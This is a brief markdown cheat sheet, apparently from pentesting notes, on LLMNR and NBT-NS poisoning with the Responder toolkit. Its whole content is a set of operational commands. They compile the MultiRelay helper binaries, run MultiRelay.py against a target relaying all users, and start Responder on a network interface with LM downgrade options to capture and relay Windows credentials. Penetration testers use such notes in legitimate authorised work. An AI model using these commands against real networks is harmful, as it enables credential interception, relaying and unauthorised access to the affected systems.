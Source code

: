 # LLMNR and NBT-NS poisonning
### Responder
1. Set up `MultiRelay.py`
   * _`rm /usr/share/responder/tools/MultiRelay/bin/Runas.exe`_ - in case it doesn't work initially
   * _`rm /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe`_ - in case it doesn't work initially
   * `x86_64-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
   * `x86_64-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`
   * `python3 /usr/share/responder/tools/MultiRelay.py -t <target> -u ALL`</br>
      - where `-u ALL` -> users
2. Run `Responder`
   * `responder -I <interface> -rdwv --lm`


## Cool resources
